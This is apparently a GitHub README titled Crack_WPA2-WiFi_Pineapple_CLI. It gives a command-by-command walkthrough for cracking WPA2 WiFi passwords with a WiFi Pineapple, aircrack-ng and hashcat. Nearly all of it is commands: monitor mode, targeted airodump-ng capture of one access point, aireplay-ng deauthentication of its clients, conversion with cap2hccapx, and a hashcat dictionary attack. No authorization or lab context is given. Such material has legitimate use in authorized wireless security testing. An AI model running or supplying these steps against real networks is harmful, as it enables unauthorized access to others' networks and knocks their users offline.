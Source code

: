 # Crack_WPA2-WiFi_Pineapple_CLI
Cracking WPA2 using Aircrack-ng through WiFi Pineapple MKVII CLI

### Prerequirments :

- Aircrack-ng : `sudo apt install aircrack-ng`
- WiFi Pineapple MKVII (or any other WiFi Adapter. TIP:Whenever you’re choosing an external Wi-Fi adapter, make sure that it supports both 2.4Ghz and 5Ghz band.

My setup
![Setup](Images/Setup.jpg)

### Terminal-1
  1. Detect your wireless network interface
     Run:
<pre lang="markdown">iwconfig</pre>
![Setup](Images/iwconfig.png)

  2. If interface not in monitor mode Run:
<pre lang="markdown">airmon-ng start &lt;interface&gt;</pre>
![Setup](Images/start_Interface.png)

  3. Capture traffic
<pre lang="markdown">airodump-ng &lt;interface&gt</pre>
![Setup](Images/airodump.png)


  4. To set WiFi Pineapple at 5GHz Run:     
<pre lang="markdown">airmon-ng &lt;interface&gt channel 48;</pre>
![Setup](Images/enable_5g.png)


  5. Capture traffic 5GHz band
     <pre lang="markdown">airodump-ng &lt;interface&gt --channel 48</pre>

### Terminal-2

  6. select target and focus on one AP on channel:
<pre lang="markdown">airodump-ng -c &lt;channel&gt; -w &lt;filename&gt; -d &lt;AP_BSSID&gt; &lt;interface&gt;</pre>

### Example:

<pre lang="markdown">airodump-ng -c2 -w capture_wpa2 -d 00:11:22:33:44:55 wlan3mon</pre>

### Explanation:
- **`-c 2`** → Specifies the Wi-Fi channel (replace with your target AP’s channel).
- **`-w capture_wpa2`** → Defines the output filename (`capture_wpa2.cap`).
- **`-d 00:11:22:33:44:55`** → Filters by target AP’s BSSID.
- **`wlan3mon`** → Your network interface in monitor mode.

Once executed, the `.cap` file will be created, which can be used for further analysis.

  ![Setup](Images/airodump_target.png)



<pre lang="markdown">
sudo apt install aircrack-ng hashcat -y
</pre>

<pre lang="markdown">
ifconfig
</pre>

<pre lang="markdown">
/sbin/ifconfig
</pre>

<pre lang="markdown">
sudo airmon-ng start wlp3s0
</pre>

<pre lang="markdown">
sudo airodump-ng wlp3s0mon
</pre>

<pre lang="markdown">
sudo airodump-ng --bssid 00:11:22:33:44:55 -c 10 --write capture wlp3s0mon
</pre>

<pre lang="markdown">
sudo aireplay-ng --deauth 10 -a 00:11:22:33:44:55 wlp3s0mon
</pre>

<pre lang="markdown">
gcc cap2hccapx.c -o cap2hccapx
</pre>

<pre lang="markdown">
./cap2hccapx capture-01.cap capture.hccapx
</pre>

<pre lang="markdown">
hashcat -I
</pre>

<pre lang="markdown">
hashcat -m 2500 capture.hccapx dictionary.txt
</pre>

<pre lang="markdown">
hashcat -m 2500 capture.hccapx dictionary.txt --show
</pre>
